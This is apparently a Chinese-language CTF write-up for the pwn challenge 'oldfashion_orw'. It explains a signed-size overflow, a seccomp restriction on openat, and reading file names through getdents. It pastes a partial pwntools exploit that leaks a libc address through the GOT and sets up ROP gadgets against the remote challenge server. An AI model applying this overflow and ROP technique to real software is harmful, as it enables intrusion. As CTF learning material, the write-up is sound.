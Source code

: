 # oldfashion_orw

这题挺有意思的。看了题目谷歌之后发现是 ORW 三件套拿 flag

一开始读出字节数将有符号数改成了无符号数，因此填入一个负数即可

但这题给出的 sh 文件指出我们并不能知道 flag 文件的名字，因此还需要 OGW 读文件名（学到了）

同时，这题也有一个坑点，glibc 使用的 open、read 等使用的是`openat`实现的，这恰好是被 seccomp 禁用的，因此这里需要使用系统调用号实现这些函数

同时，这给我整的很难受的是，我一开始的 exp 在本地能够读出文件名，远程却没有反应，不知道为什么（）

不知道为什么，总之先贴 exp 上来

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process('./vuln')
sh = remote('chuj.top', 42614)
elf = ELF('./vuln')
libc = ELF('./libc-2.31.so')

pop_rdi_ret = 0x0401443
pop_rsi_r15_ret = 0x0401441
libc_pop_rdx_r12_ret = 0x011c371
libc_pop_rax_ret = 0x04a550
libc_syscall = 0x066229
bss_addr = 0x0404000

write_got = elf.got['write']
write_plt = elf.plt['write']
main_addr = elf.sym['main']


def gen_para_payload(para1: bytes, para2: bytes = None, para3: bytes = None) -> bytes:
    payload = b''
    payload += p64(pop_rdi_ret) + para1
    payload += p64(pop_rsi_r15_ret) + para2 + p64(0) if para2 else b''
    payload += p64(pop_rdx_r12_ret) + para3 + p64(0) if para3 else b''
    return payload


payload = b"A"*0x38
payload += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0) + p64(write_plt) + p64(main_addr)
sh.recvuntil(b"size?\n")
sh.send(b'-1')
sh.recvuntil(b"content?\n")
sh.sendline(payload)
sh.recvuntil(b"done!\n")


write_addr = u64(sh.recv(6).ljust(8, b"\x00"))
print(hex(write_addr))

libc_base = write_addr - libc.sym['write']
open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
getdents64_addr = libc_base + libc.sym['getdents64']
pop_rdx_r12_ret = libc_base + libc_pop_rdx_r12_ret
pop_rax_ret = libc_base + libc_pop_rax_ret
```